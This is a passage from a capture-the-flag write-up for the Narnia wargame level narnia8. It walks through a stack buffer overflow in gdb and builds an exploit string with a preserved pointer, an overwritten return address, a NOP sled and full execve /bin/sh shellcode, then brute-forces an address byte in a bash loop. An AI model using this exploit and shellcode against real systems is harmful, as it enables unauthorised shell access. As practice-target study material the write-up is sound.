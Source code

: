 ```
Continuing.
AAAABBBBCCCCDDDDEEEEFu
[Inferior 1 (process 18538) exited normally]
```
I know it's a lot of stuff here. After I set the breakpoint I executed with a 24 Bytes long input (4 bytes more than the allowed) and then stepped one assigment at a time. Each time I esamined the stack and you can see our values slowly written there (0x41,0x42,0x43...) At some point we overwrite an address in memory. Inspecting it shows us... It's the address to out input buffer! This means we are overwriting it causing it to stop the loop because it can't find a string anymore in a random address. The return address is just another 4 bytes away. (at 0xffffd6a0 in this case)
I tried a lot of things here. The plan is to control the return address but carefully overwrite the memory to keep the buffer pointer intact. Something like this:
>[20 times A][string pointer][4 bytes junk][return address][shellcode]

```
(gdb) run $(python -c "print('A'*20+'\x46\xd8\xff\xff'+'JUNK'+'\xa4\xd6\xff\xff'+'\x90'*50+
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x
80\x31\xc0\x40\xcd\x80')")
Starting program: /narnia/narnia8 $(python -c "print('A'*20+'\x46\xd8\xff\xff'+'JUNK'+'\xa4\xd6\xff\xff'+'\x90'*50+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')")
AAAAAAAAAAAAAAAAAAAAF-
[Inferior 1 (process 18707) exited normally]
(gdb) 
```
Wait...what? No shell and no SEGV either. The problem is that the address are changing due to the variable length of the input. We can precicely calculate it inside of gdb but it would be useless because outside of it they are changing again. Let's step out of gdb.
What i ended up doing was bruteforcing it with a bash loop. The exact address won't move too much probably an stay in the range of 255 bytes. Even if we had to bruteforce two bytes it would be still possible.
```
narnia8@narnia:/narnia$ for i in {0..255}                                                                                                                                              
> do ./narnia8 $(python -c "print('A'*20+chr($i)+'\xd8\xff\xff'+'JUNK'+'\xa4\xd6\xff\xff'+'\x90'*50+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x
0b\xcd\x80\x31\xc0\x40\xcd\x80')")                                                                                                                                                     
> done
-bash: warning: command substitution: ignored null byte in input                                                                                                                       
AAAAAAAAAAAAAAAAAAAL                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAK                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAK                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAAK                                                                                                                                                                  
AAAAAAAAAAAAAAAAAAAK                                                                                                                                                                   
Segmentation fault                                                                                                                                                                     
Segmentation fault                                                                                                                                                                     
AAAAAAAAAAAAAAAAAAAK                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAKA                                                                                                                                                                   
AAAAAAAAAAAAAAAAAAAAK                                                                                                                                                                  
AAAAAAAAAAAAAAAAAAAAK                                                                                                                                                                  
```